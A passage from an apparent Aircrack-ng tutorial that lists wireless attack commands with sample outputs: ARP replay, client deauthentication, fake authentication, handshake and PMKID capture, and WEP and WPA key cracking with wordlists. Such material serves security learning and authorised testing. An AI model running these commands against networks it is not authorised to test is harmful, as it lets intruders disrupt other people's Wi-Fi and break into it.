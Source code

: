 - This command performs an ARP(The Address Resolution Protocol) request replay attack to generate traffic. This traffic makes the process of cracking WEB keys easier and faster. This makes the Aircrack -ng tool more functional.

```
aireplay-ng -3 -b <BSSID> -h <MAC_address> <interface>
```

### 8. Packet Injection Test

- This command tests packet injection capabilities of the wireless interface. Successful packet injection is critical for network conneciton attacks.

```
aireplay-ng -9 <interface>
```

### 9. Stop Monitor Mode

- This turns off monitor mode on any wireless interface. Returns the interface to managed mode, returning it to normal networking. It's sort of the final stage of the attack. The programme stops running.

```
airmon-ng stop <interface>
```

### 10. Help and Usage Information

- This command displays the help menu and usage information for Aircrack-ng. It provides an overview of available options and command syntax.

```
aircrack-ng -h
```

Alternative usage:

```
aircrack-ng --help
```

## Output Examples of Aircrack-ng Commands

|Command|Example Usage|Function|Output Example|
|---|---|---|---|
|Monitor Mode|`airmon-ng start wlan0`|Enables monitor mode on wlan0 interface.|`Interface wlan0 set to monitor mode on channel 6`|
|Stop Monitor Mode|`airmon-ng stop wlan0`|Stops monitor mode on wlan0 interface.|`Interface wlan0 set to managed mode`|
|Capture Packets|`airodump-ng wlan0`|Captures packets on wlan0 interface.|`CH 9 ][ Elapsed: 10 s ][ 2024-08-07 18:25 ]`  <br>`BSSID PWR Beacons #Data, #/s CH MB ENC CIPHER AUTH ESSID`  <br>`AA:BB:CC:DD:EE:FF -30 10 20 0 6 54e WPA2 CCMP PSK MyNetwork`|
|Use a Specific Channel|`airodump-ng --channel 6 wlan0`|Captures packets on a specified channel.|`CH 6 ][ Elapsed: 10 s ][ 2024-08-07 18:25 ]`|
|Start WPA Handshake Capture|`airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0`|Captures WPA handshake for cracking later.|`Waiting for packets...`|
|Deauthenticate Clients|`aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF -c 00:11:22:33:44:55 wlan0`|Deauthenticates clients from access point.|`Sending 64 directed DeAuth. STMAC: [00:11:22:33:44:55]`|
|Fake Authentication|`aireplay-ng -1 0 -e MyNetwork -a AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 wlan0`|Performs fake authentication with access point.|`Association successful :-)`|
|Packet Injection Test|`aireplay-ng -9 wlan0`|Tests packet injection capabilities.|`Injection is working!`|
|ARP Request Replay|`aireplay-ng -3 -b AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 wlan0`|Performs ARP request replay attack.|`The AP appears to drop packets of length: 68`|
|Start WEP Attack|`aircrack-ng -b AA:BB:CC:DD:EE:FF -w wordlist.txt capture.cap`|Starts WEP attack using a wordlist.|`Attempting to crack WEP key...`|
|Crack WEP Key|`aircrack-ng -b AA:BB:CC:DD:EE:FF capture.cap`|Cracks WEP key using capture file.|`KEY FOUND! [ 12:34:56:78:90 ]`|
|Crack WPA/WPA2-PSK Key|`aircrack-ng -w rockyou.txt -b AA:BB:CC:DD:EE:FF capture.cap`|Cracks WPA/WPA2-PSK key using wordlist.|`Passphrase not in dictionary`  <br>`Read 100000 packets...`|
|Capture PMKID for WPA/WPA2|`hcxdumptool -i wlan0 -o capture.pmkid`|Captures PMKID for WPA/WPA2 cracking.|`PMKID: XX:XX:XX:XX:XX:XX`|